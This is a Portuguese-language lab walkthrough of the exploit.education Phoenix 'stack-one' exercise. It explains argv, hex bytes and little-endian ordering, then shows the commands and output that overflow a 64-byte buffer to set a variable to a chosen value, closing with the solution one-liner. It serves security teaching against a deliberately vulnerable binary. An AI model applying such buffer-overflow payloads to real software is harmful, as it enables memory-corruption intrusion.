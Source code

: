 # 🎯 Objetivo
Agora o objetivo não é só alterar changeme, é alterar para um valor especifico!

Lembra todo aquele papinho de controlar o valor depois do preenchimento (padding) ?

Pois é, ele vai ser super util agora!

# 💡 Dicas
Ver a representação hex de cada letra: $ man ascii
Dar um Google sobre Endianess.

# 💫 Explicação
Se lembra de que no tutorial passado a gente trocou changeme pra 41 e 42?

O que ta acontecendo por tras das cenas é que as letras estão virando a sua representação hex.

Então print("A"*5) é equivalente à print(b"\x41"*5)
> Presta atenção no b"" : esse b indica que são Bytes! :D

As vezes o python3 vai reclamar de você usar valores arbitrários pra esses bytes,
então você pode usar o python2 (o print não tem parenteses, mas o resto é igual):
> $ python -c "print 'blablabla'"

Nesse caso, changeme ta sendo comparada com 0x496c5962:
```
  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  ....
```
O buffer tem tamanho 64 de novo, então podemos usar 64 caracteres para preenche-lo, igual na anterior! uhuuuu :D

Nesse caso, o programa não ta usando o gets pra abrir um input. Ele ta usando o argv (o que vem depois do nome do programa quando vc o executa no terminal)
> ./stack-one teste batata
```
agrv[0] = stack-one (o nome do programa)
argv[1] = teste
argv[2] = batata
... e assim por diante

argc é a contagem: quantas coisas tem no argv! E aqui tá checando se é menor que 2!
```
então no nosso caso, o agrv vai funcionar assim:
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962
```
o $() executa oq ta dentro dos parenteses e passa pro programa, nesse caso ficaria:
> ./stack-one AAAAAAAAAAAAAA...

E o program avisa que o valor de changeme não foi alterado!

O valor de changeme tem tamanho 4 bytes, pq ele é um integer (integers são 32 ou 64 bits, então 4 ou 8 bytes). Isso quer dizer que a gente pode colocar 4 letras :D
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + 'BCDE'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x45444342, we want 0x496c5962
```
Ue, que esquisito, vc reparou algo de estranho?

A gente pegiu pra colocar BCDE (42 43 44 45) e ele colocou EDCB (45 44 43 42), por que isso?

Os computadores armazenam integers usando um sistema Little Endian (LE) ou Big Endian (BE), esses sistemas decidem como os numeros são representados.
> Esses sistemas se referem a magnitude dos digitos, Centena, Dezena, Unidade,...

> Em um sistema BE, os numeros são representados em ordem descrescente CDU.
> Em um sistema LE, os numeros são representados em ordem crescente UDC.
```
Por exemplo, o numero cento e vinte três:
BE: 123        LE: 321
```
No dia a dia, usamos o sistema BE, mas os computadores preferem LE, então eles invertem a ordem dos 4 bytes dos inteiros!

Então pra gente conseguir que changeme seja BCDE, a gente precisa dar EDCB pro computador! :D
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + 'EDCB'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x42434445, we want 0x496c5962
```
Isso quer dizer que pra gente definir changeme = 49 6c 59 62, e completar o desafio, a gente precisa inverter a ordem dos bytes (62 59 6c 49)! :D
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + b'\x62\x59\x6c\x49'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
Yay vitoria! 

### 🌙 Dica: Usando valores hex diretamente 
Mas pera, que coisa esquisita de \x é essa?

Lembra que eu falei que letras são valores hex? A gente tambem pode usar os valores hex diretamente usando \x  :D
> Então b"\x41" é igual a b"A"!

Caso você queira usar as letras, voce pode tambem! O valor hex de cada letra ta disponivel em: > $ man ascii
Então b'\x62\x59\x6c\x49' viraria b'bYlI'
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + b'bYlI'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
Mas e nos casos que o byte não tem um correspondente válido? Vc usa "\x" :D

Na verdade, é mais prático usar \x 99% das vezes, mas é bom ter mais de uma opção ;)


Ufa, mais um tutorial terminado! Valeu por ter lido, te vejo no próximo :D 

# 🔥 Solução
> ./stack-one $(python -c "print b'A' * 64 + b'bYlI'")

